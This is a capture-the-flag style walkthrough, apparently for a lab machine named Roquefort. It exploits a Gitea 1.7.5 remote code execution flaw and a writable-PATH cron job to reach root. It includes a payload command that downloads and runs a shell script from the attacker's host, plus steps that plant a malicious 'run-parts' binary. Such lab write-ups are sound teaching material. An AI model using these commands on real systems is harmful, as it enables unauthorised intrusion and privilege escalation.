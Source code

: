 # Roquefort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.67 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:40 +08
Nmap scan report for 192.168.157.67
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

FTP does not allow for anonymous logins.

### Web Enum --> Gitea RCE

Only port 3000 has a webpage:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

In the bottom left, we can see the version, which is vulnerable to RCE:

```
$ searchsploit gitea 1.7.5
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Gitea 1.7.5 - Remote Code Execution                        | multiple/webapps/49383.py
----------------------------------------------------------- ---------------------------------
```

We can create any account, and then use these settings:

```
USERNAME = "test123"
PASSWORD = "test123"
HOST_ADDR = '192.168.45.196'
HOST_PORT = 3000
URL = 'http://192.168.157.67:3000'
CMD = 'wget http://192.168.45.196:21/shell.sh && bash shell.sh'
```

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Path --> Root

`linpeas.sh` picked up that we can write to the Systemd PATH:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This means we just need to find some process from `root` that doesn't use the full PATH. I used `pspy64` to find such a process.

```
2023/07/15 22:55:01 CMD: UID=0    PID=13493  | run-parts --report /etc/cron.hourly 
```

`run-parts` should work.&#x20;

```
chloe@roquefort:/tmp$ which run-parts
/bin/run-parts
```

Since the `/bin` directory is the last in PATH, we can place our malicious binary within `/usr/local/bin` to be executed first.&#x20;

```bash
cd /usr/local/bin
wget 192.168.45.196:21/run-parts
chmod 777 run-parts
```

Then, start a listener port and wait for `root` to execute the binary:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>
